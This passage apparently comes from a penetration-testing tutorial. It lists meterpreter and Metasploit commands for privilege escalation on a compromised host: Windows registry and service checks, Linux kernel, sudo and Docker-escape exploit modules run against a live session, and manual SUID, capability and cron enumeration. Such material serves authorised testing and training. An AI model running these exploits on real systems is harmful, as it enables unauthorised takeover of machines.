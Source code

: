 #### Manual Techniques (When Automated Fails):
```bash
# Check for AlwaysInstallElevated vulnerability
meterpreter > reg queryval -k HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated
meterpreter > reg queryval -k HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated

# Check for unquoted service paths
meterpreter > run post/windows/gather/enum_services

# Check for vulnerable drivers
meterpreter > run post/windows/gather/enum_drivers
```

### Linux Privilege Escalation

#### Using Metasploit Modules:
```bash
# 1. Try popular kernel exploits
msf6 > use exploit/linux/local/dirty_cow
msf6 exploit(linux/local/dirty_cow) > set SESSION 2
msf6 exploit(linux/local/dirty_cow) > run

# 2. Try Sudo privilege escalation
msf6 > use exploit/linux/local/sudo_baron_samedit
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 2
msf6 exploit(linux/local/sudo_baron_samedit) > run

# 3. Try Docker escape if in container
msf6 > use exploit/linux/local/docker_daemon_privilege_escalation
msf6 exploit(linux/local/docker_daemon_privilege_escalation) > set SESSION 2
msf6 exploit(linux/local/docker_daemon_privilege_escalation) > run
```

#### Manual Techniques:
```bash
# Check for SUID/SGID files
meterpreter > shell
$ find / -perm -4000 -type f 2>/dev/null
$ find / -perm -2000 -type f 2>/dev/null

# Check for capabilities
$ getcap -r / 2>/dev/null

# Check for cron jobs
$ ls -la /etc/cron* /var/spool/cron/

# Check for world-writable files
$ find / -perm -2 -type f 2>/dev/null | grep -v "/proc/"
```
